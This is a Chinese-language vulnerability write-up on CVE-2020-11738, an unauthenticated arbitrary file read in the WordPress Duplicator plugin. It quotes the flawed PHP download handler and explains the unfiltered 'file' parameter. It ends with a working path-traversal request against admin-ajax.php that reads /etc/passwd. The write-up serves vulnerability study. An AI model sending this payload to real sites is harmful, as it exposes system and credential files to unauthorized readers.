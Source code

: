 # WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738

## 漏洞描述

WordPress Duplicator插件由于对文件下载没有进行验证，则导致了任意文件读取漏洞

## 漏洞影响

```
Duplicator <= v1.3.26
```

## 插件名

Duplicator

https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip

## 漏洞复现

首先先查看注册的无需授权的action接口 `wp-content/plugins/duplicator/ctrls/class.web.services.php`

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241332267.png)

这里 `wp_ajax_nopriv_duplicator_download` 对应的函数名为 duplicator_download

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241332007.png)

```
public static function duplicator_download() {
        $file = sanitize_text_field($_GET['file']);
        $filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
        // Process download
        if(file_exists($filepath)) {
            // Clean output buffer
            if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
                @ob_clean();
            }

            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));
            flush(); // Flush system output buffer

            try {
                $fp = @fopen($filepath, 'r');
                if (false === $fp) {
                    throw new Exception('Fail to open the file '.$filepath);
                }
                while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
                    echo $data;
                }
                @fclose($fp);
            } catch (Exception $e) {
                readfile($filepath);
            }
            exit;
        } else {
            wp_die('Invalid installer file name!!');
        }
    }
```

可以看到这里接受参数 file，拼接至 $filepath 中，通过调试可以得知

DUPLICATOR_SSDIR_PATH 为 wp-snapshots 目录，file可控且没有过滤，导致任意文件读取

```
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241334750.png)